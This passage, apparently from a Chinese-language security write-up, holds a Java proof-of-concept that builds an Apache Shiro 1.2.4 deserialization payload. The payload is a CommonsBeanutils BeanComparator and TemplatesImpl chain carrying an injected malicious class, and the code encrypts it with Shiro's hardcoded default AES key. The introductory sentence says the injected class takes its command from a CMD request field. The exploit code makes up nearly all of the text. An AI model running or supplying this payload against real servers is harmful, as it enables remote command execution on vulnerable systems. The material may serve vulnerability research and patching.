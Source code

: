 使用`POC`加载恶意类并生成`payload`，根据上方的恶意类可看出命令的获取是从请求包中的`CMD`字段获取的。

```java
package ysoserial.shiropoc;



import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;
import org.apache.shiro.codec.Base64;
import org.apache.shiro.codec.CodecSupport;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.util.PriorityQueue;


import static ysoserial.payloads.util.Reflections.setFieldValue;

//shiro无依赖利用链，使用shiro1.2.4自带的cb 1.8.3
public class POC {
    public static void main(String[] args) throws Exception {
        com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl templates = getTemplate();

        final BeanComparator comparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
        // stub data for replacement later
        queue.add("1");
        queue.add("1");

        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{templates, templates});

        // ==================
        // 生成序列化字符串
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(queue);
        AesCipherService aes = new AesCipherService();
        byte[] key = Base64.decode(CodecSupport.toBytes("kPH+bIxk5D2deZiIxcaaaA=="));//shiro默认密钥
        byte[] bytes = byteArrayOutputStream.toByteArray();

        ByteSource ciphertext;
        ciphertext = aes.encrypt(bytes, key);
        System.out.println(ciphertext);
    }
    public static com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl getTemplate() throws Exception {
        DynamicClassGenerator classGenerator =new DynamicClassGenerator();
        CtClass clz = classGenerator.genPayloadForLinux();
        com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl obj = new com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{clz.toBytecode()});
        setFieldValue(obj, "_name", "a");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        return obj;
    }
}
```
